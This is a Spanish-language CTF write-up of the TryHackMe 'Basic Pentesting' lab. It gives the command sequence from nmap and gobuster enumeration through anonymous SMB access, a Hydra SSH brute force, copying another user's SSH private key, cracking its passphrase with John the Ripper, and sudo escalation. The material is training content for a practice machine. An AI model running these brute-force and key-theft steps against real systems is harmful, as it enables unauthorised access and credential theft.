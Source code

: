 ```yaml
---
tags:
  - Cybersecurity
  - TryHackMe
  - Linux
  - Samba
  - Hydra
  - Ssh
  - JohnTheRipper
  - Sudo
---
```

- [[#Enumeración|Enumeración]]
	- [[#Enumeración#Ping|Ping]]
	- [[#Enumeración#Nmap|Nmap]]
	- [[#Enumeración#Fuzzing Web|Fuzzing Web]]
- [[#Explotación|Explotación]]
	- [[#Explotación#Smbclient|Smbclient]]
	- [[#Explotación#Hydra|Hydra]]
	- [[#Explotación#SSH|SSH]]
	- [[#Explotación#John The Ripper|John The Ripper]]
	- [[#Explotación#Sudo|Sudo]]

---
# Resolviendo la máquina "Basic Pentesting" de TryHackMe

> En esta publicación, comparto cómo resolví la máquina [Basic Pentesting](https://tryhackme.com/room/basicpentestingjt) de [TryHackMe](https://tryhackme.com/). Es una excelente práctica para quienes están empezando en el mundo del _pentesting_, cubriendo etapas como enumeración, explotación y escalada de privilegios.

---
## Enumeración
### Ping

Se realiza un _ping_ para ver si tenemos conexión con la máquina, además de comprobar el sistema operativo con el que nos encontramos.

`ping -c 1 10.10.169.124`

![[Pasted image 20250708192343.png]]

*TTL=63* -> **Linux**
### Nmap

Se realiza un escaneo de puertos.

`nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.169.124 -oG allPorts`

![[Pasted image 20250708192615.png]]

`nmap -p22,80,139,445,8009,8080 -sCV 10.10.169.124 -oN targeted`

![[Pasted image 20250708192647.png]]
### Fuzzing Web

Se realiza **Fuzzing Web** para buscar directorios.

`gobuster dir -u http://10.10.169.124/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt`

![[Pasted image 20250708193835.png]]

Se encuentra el directorio: `http://10.10.169.124/development`.

![[Pasted image 20250708193849.png]]

![[Pasted image 20250708193902.png]]

![[Pasted image 20250708193912.png]]
## Explotación
### Smbclient

Se comprueba si el protocolo *SAMBA* tiene el acceso con usuario anónimo.

`smbclient -L 10.10.169.124 -N`

![[Pasted image 20250708194000.png]]

Se accede al protocolo *SAMBA* con el usuario anónimo y se descarga el archivo `staff.txt`.

`smbclient -N \\\\10.10.169.124\\Anonymous`

```
dir
get staff.txt
```

![[Pasted image 20250708194136.png]]

Se visualiza el contenido del archivo.

`cat staff.txt`

![[Pasted image 20250708194200.png]]
### Hydra

Se procede a realizar fuerza bruta mediante *Hydra*.

`hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.169.124`

![[Pasted image 20250708194900.png]]
### SSH

`ssh jan@10.10.169.124`

![[Pasted image 20250708195005.png]]

Se accede a la siguiente ruta: `/home/kay`

`ls -la`

![[Pasted image 20250708195956.png]]

Se observa que tenemos acceso a la carpeta *.ssh*. Además de poder visualizar la *id_rsa*.

`cd .ssh`

`ls -la`

![[Pasted image 20250708200027.png]]

`cat id_rsa`

![[Pasted image 20250708200108.png]]

Se copia la *id_rsa*.

`nano id_rsa`

Se dan los permisos necesarios.

`chmod 600 id_rsa`

Se vuelve a conectar mediante *ssh* y nos pide una frase.

`ssh kay@10.10.169.124 -i id_rsa`

![[Pasted image 20250708200230.png]]
### John The Ripper

Se procede a *crackear* la *id_rsa*.

`ssh2john id_rsa > id_john.txt`

`cat id_john.txt`

![[Pasted image 20250708200321.png]]

`john id_john.txt --wordlist=/usr/share/wordlists/rockyou.txt`

![[Pasted image 20250708200352.png]]

Se vuelve a conectar mediante *ssh* y se introduce la frase.

`ssh kay@10.10.169.124 -i id_rsa`

![[Pasted image 20250708200644.png]]

Se observa el archivo *pass.bak*.

`cat pass.bak`

![[Pasted image 20250708200929.png]]
### Sudo

Se introduce la contraseña del archivo *pass.bak*.

`sudo -l`

![[Pasted image 20250708201018.png]]

`sudo su`

![[Pasted image 20250708201046.png]]

---